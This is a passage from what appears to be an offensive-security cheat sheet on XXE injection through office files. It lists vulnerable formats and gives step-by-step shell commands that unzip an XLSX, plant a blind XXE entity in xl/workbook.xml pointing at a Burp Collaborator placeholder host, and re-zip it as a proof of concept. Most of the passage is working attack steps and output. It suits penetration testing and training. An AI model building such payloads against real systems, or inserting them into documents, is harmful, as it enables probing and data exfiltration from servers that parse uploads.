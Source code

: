 ```
DOCX/XLSX/PPTX
ODT/ODG/ODP/ODS
SVG
XML
PDF (experimental)
JPG (experimental)
GIF (experimental)
```

#### **XXE inside XLSX file** ####

Extract the excel file.

```
$ mkdir XXE && cd XXE
$ unzip ../XXE.xlsx
Archive:  ../XXE.xlsx
  inflating: xl/drawings/drawing1.xml
  inflating: xl/worksheets/sheet1.xml
  inflating: xl/worksheets/_rels/sheet1.xml.rels
  inflating: xl/sharedStrings.xml
  inflating: xl/styles.xml
  inflating: xl/workbook.xml
  inflating: xl/_rels/workbook.xml.rels
  inflating: _rels/.rels
  inflating: [Content_Types].xml
```

Add your blind XXE payload inside `xl/workbook.xml`.

```
<xml...>
<!DOCTYPE x [ <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
<x>&xxe;</x>
<workbook...>
```

Rebuild the Excel file.

```
$ zip -r ../poc.xslx *
updating: [Content_Types].xml (deflated 71%)
updating: _rels/ (stored 0%)
updating: _rels/.rels (deflated 60%)
updating: docProps/ (stored 0%)
updating: docProps/app.xml (deflated 51%)
updating: docProps/core.xml (deflated 50%)
updating: xl/ (stored 0%)
updating: xl/workbook.xml (deflated 56%)
updating: xl/worksheets/ (stored 0%)
updating: xl/worksheets/sheet1.xml (deflated 53%)
updating: xl/styles.xml (deflated 60%)
updating: xl/theme/ (stored 0%)
updating: xl/theme/theme1.xml (deflated 80%)
updating: xl/_rels/ (stored 0%)
updating: xl/_rels/workbook.xml.rels (deflated 66%)
updating: xl/sharedStrings.xml (deflated 17%)
```
